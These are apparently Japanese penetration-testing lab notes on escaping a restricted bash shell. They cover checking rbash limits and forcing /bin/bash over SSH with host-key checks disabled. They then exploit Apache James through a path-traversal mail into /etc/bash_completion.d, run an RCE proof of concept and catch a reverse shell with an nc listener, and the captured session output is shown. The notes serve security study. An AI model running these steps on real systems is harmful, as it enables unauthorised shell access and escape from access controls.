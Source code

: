 # rbash

* rbashで実行されていることを確認する

```
file $SHELL
```

```
echo $SHELL
```

```
echo $PATH
```

* rbashの設定を確認する

```bash
# kali rbashの制限内容の確認
man -P cat rbash
```

* /で始まらない組み込みシェルを確認する

```bash
help
```



* バッシュ強制指定してSSHする

  ```
  ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ryuu@10.11.1.72 -p 22 -t /bin/bash
  ```



* 脆弱性を利用する

  #### Apach_james

  ```
  searchsploit -p 35513
  ```

  * `/etc/bash_completion.d`ディレクトリにあるファイルは、rbashが初期化される前に実行される

  * 「.../.../.../.../etc/bash_completion.d」ユーザに送る不正メールは、/etc/bash_completion.dディレクトリ内に配置される

    

  * リバースシェルをPoCに再設定する

  ![image-20230207231430367](img/rbash/image-20230207231430367.png)

  ```
  python apache_james_rce.py 10.11.1.72
  ```

  ```
  ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ryuu@10.11.1.72 -p 22
  ```

  ```bash
  nc -lvnp 443
  listening on [any] 443 ...
  connect to [192.168.119.139] from (UNKNOWN) [10.11.1.72] 36213
  ryuu@beta:~$ whoami
  whoami
  Command 'whoami' is available in '/usr/bin/whoami'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  whoami: command not found
  ryuu@beta:~$ hostname 
  hostname
  Command 'hostname' is available in '/bin/hostname'
  The command could not be located because '/bin' is not included in the PATH environment variable.
  hostname: command not found
  ryuu@beta:~$ echo $0
  echo $0
  /bin/bash
  ryuu@beta:~$ 
  
  ```

  
